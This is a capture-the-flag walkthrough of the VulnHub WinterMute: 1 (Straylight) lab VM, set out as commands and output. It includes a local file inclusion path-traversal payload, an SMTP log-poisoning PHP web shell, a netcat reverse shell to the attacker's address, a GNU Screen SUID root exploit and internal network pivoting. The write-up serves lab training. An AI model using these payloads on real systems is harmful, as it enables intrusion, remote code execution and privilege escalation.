

# VulnHub WinterMute: 1 (Straylight)

> Author: Hades - [LeeCyberSec](https://leecybersec.com)

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|WinterMute: 1|
|---|---|
|**Date release**|5 Jul 2018|
|**Author**|[creosote](https://www.vulnhub.com/author/creosote,584/)|
|**Series**|[WinterMute](https://www.vulnhub.com/series/wintermute,161/)|

## Information Gathering

### Openning Services

To scan all open ports in WinterMute I run nmap with `-p-` options and enum service at each port.

``` bash
┌──(Hades㉿192.168.56.110)-[3.4:37.2]~/scripting
└─$ sudo ./enum/all.sh 192.168.56.102

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 192.168.56.102 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 25,80,3000

### Services Enumeration ############################
nmap -sC -sV -Pn 192.168.56.102 -p25,80,3000
<snip>

PORT     STATE SERVICE         VERSION
25/tcp   open  smtp            Postfix smtpd
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=straylight
| Subject Alternative Name: DNS:straylight
| Not valid before: 2018-05-12T18:08:02
|_Not valid after:  2028-05-09T18:08:02
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http            Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Night City
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: submit
| hadoop-tasktracker-info: 
|_  Logs: submit
| http-title: Welcome to ntopng
|_Requested resource was /lua/login.lua?referer=/
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:0E:1B:0D (Oracle VirtualBox virtual NIC)
Service Info: Host:  straylight

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.67 seconds
```

### Postfix smtpd

``` bash
### SMTP Enumeration (25) ############################
<snip>

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
MAC Address: 08:00:27:0E:1B:0D (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

Using nc to access to smtp service and run some common commands. In here, we can sent a mail without authentication.

``` bash
┌──(Hades㉿192.168.56.110)-[4.2:41.3]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
vrfy root
252 2.0.0 root
mail from: "root@localhost"
250 2.1.0 Ok
rcpt to: "root"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
root
.
250 2.0.0 Ok: queued as 3674F5516
```

### Apache httpd 2.4.25

Brower to the web application and get some messages in hone page, after that, the website redirect to `www.html` and sent another messages.


[+] Files and directories

``` bash
gobuster dir -k -u http://192.168.56.102:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 
<snip>
===============================================================
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.102/manual/]
/freeside             (Status: 301) [Size: 319] [--> http://192.168.56.102/freeside/]
/server-status        (Status: 403) [Size: 302]                                      
                                                                                     
<snip>
```

[+] All URLs

``` bash
curl -k http://192.168.56.102:80 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
<link rel="stylesheet" href="gl.css">
<title>Night City</title>
```

### Apache Hadoop ntopng


At [ntopng Web GUI](https://www.ntop.org/guides/ntopng/web_gui/index.html), I know that the default login is `admin:admin`. Try it and get admin page.


Go to `http://192.168.56.102:3000/lua/flows_stats.lua`, there is a url `/turing-bolo/`.


There are content at file case.log via url `http://192.168.56.102/turing-bolo/bolo.php?bolo=case`



### Local File Inclusion

Web application auto add `.log` after the provided value.
I find some log in the Kali Machine to trying access it in the server with payload `bolo=../../../../../../var/log/apt/history`

``` bash
┌──(Hades㉿192.168.56.110)-[4.6:23.8]~/scripting
└─$ find / -name *.log 2> /dev/null
<snip>
/var/log/apt/history.log
/var/log/dpkg.log
```


## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php)

> [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight)

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```


Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```


## Privilege escalation

Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

### Binaries That AutoElevate

``` bash
www-data@straylight:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
<snip>
www-data@straylight:/tmp$
```

### GNU Screen 4.5.0 exploit

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:23.7]~
└─$ searchsploit screen 4.5.0
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation            | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)      | linux/local/41152.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

At `/tmp` in the unix machine, I create 2 file `libhax.c` `rootshell.c` and run `poc.sh` to get root.

> [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight)

``` bash
bash poc.sh 2> /dev/null
```


## Post Exploitation

Enum network, there are 2 interfaces `enp0s3` and `enp0s8`

```txt
root@straylight:/tmp# ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.102  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::a00:27ff:fe0e:1b0d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:0e:1b:0d  txqueuelen 1000  (Ethernet)
        RX packets 498352  bytes 66009694 (62.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 408318  bytes 173600084 (165.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.107.106  netmask 255.255.255.0  broadcast 192.168.107.255
        inet6 fe80::a00:27ff:fec0:db47  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:c0:db:47  txqueuelen 1000  (Ethernet)
        RX packets 244  bytes 34210 (33.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 45  bytes 7450 (7.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
<snip>
```

> [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight)

``` txt
root@straylight:/tmp# bash pingSweeping.sh 192.168.107
192.168.107.2
192.168.107.1
192.168.107.106
192.168.107.107
```

Scan open port in `192.168.107.107` with `nc`.

``` bash
root@straylight:/tmp# nc -nv -w 1 -z 192.168.107.107 1-65535
(UNKNOWN) [192.168.107.107] 34483 (?) open
(UNKNOWN) [192.168.107.107] 8080 (http-alt) open
(UNKNOWN) [192.168.107.107] 8009 (?) open
```

> [WinterMute: 1 (Neuromancer)](/walkthrough/vulnhub/Wintermute-1-Neuromancer/)